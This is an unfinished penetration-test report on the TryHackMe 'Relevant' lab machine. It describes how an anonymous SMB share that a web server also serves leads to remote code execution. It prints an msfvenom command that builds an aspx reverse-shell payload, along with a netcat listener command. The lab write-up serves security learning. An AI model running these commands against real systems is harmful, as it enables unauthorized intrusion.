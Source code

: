 Author: Philip Kaiser  
Date: 11.01.2021

# Introduction 
This short report details the findings of the TryHackMe (www.tryhackme.com) "Relevant" blackbox challenge.
The challenge description is as follows:

```text
You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    User.txt
    Root.txt

Additionally, the client has provided the following scope allowances:

    Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
    Locate and note all vulnerabilities found
    Submit the flags discovered to the dashboard
    Only the IP address assigned to your machine is in scope
    Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)
I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.
```

# Executive Summary

The client requested that an engineer conducts an security assessment of the provided virtual environment.
The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  
The client has asked to secure two flags (no location provided) as proof of exploitation:
- User.txt
- Root.txt

############# **WIP** #############
The engineer has been able to compromise and completely take over the target machine. 
############# **WIP** #############

| # | Severity | Finding | Description | Recommendation |
|---|---|---|---|---|---|
|#1|Critical|Remote Code Execution|---|---|---|

############# **WIP** #############
Summary
############# **WIP** #############

# Tools used

# Technical Summary

# Findings

## #1 Remote Code Execution (RCE)
**Severity: Critical**

The misconfigurations *#1.1* and *#1.2* allow an adversary to upload and execute arbitrary code on the target as the **WIP** IIS **WIP** user.
This can be used to access or delete the webserver's content or shut the service down.
This finding also creates an attack vector to escalate privileges to gain SYSTEM access on the machine (see Findings #2).  


### #1.1 SMB Share Anonymous Login

The target offers an SMB ([Server Message Block](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831795(v=ws.11))) service allowing shared access to uploaded files. 
This service exposes a share "nt4wrksv" that allows guest logins, allowing anyone with access to the machine to access the SMB share, and up- and download data to and from it.
The engineer was able to find this share by scanning the target machine with the port scanning tool Nmap 7.91 (see image).
While this in itself does not necessarily pose a security threat, in combination with finding *#1.2* it becomes exploitable, enabling RCE.

![Figure 1: Discovered shares](img/smb_discovery.png)

To access the machine, the tool smbclient 4.12.5-Debian was used. As figure 2 depicts, access to the SMB share and download of a present file was able without providing a valid username and password.

![Figure 2: Guest login enabled](img/smb_guest_login.png)


### #1.2 Web Server Accesses SMB Share

Apart from one web server running on port 80, another web server running on port 49663 was found. 
This web server was configured to include the "nt4wrksv" SMB share, making the files on the SMB share accessible via the web server (depicted in Figure 3).  
In combination with finding *#1.1*, this allows to upload code that is being executed by the web server when making a web request.
The engineer uploaded a crafted payload that creates a reverse shell to the engineer's local machine using the tool *msfvenom 4.11.4*.  
To make the web server interpret the uploaded payload as code, we create the payload in the *aspx* format.
The bash command is as follows:  
`msfvenom -p windows/x64/shell/reverse_tcp -f aspx -o reverse.aspx LHOST=<IP> LPORT=<PORT>` 

Then, netcat was used to listen to the incoming reverse shell connection.  
`nc -lvp <PORT>`  
Finally, the file needs to be uploaded to the target using smbclient and accessed via a web request (depicted in Figure 4).

![Figure 3: Accessing the SMB share via the web server](img/smb_web_server_access.png)

![Figure4: Creating a reverse shell](img/reverse_shell.png)



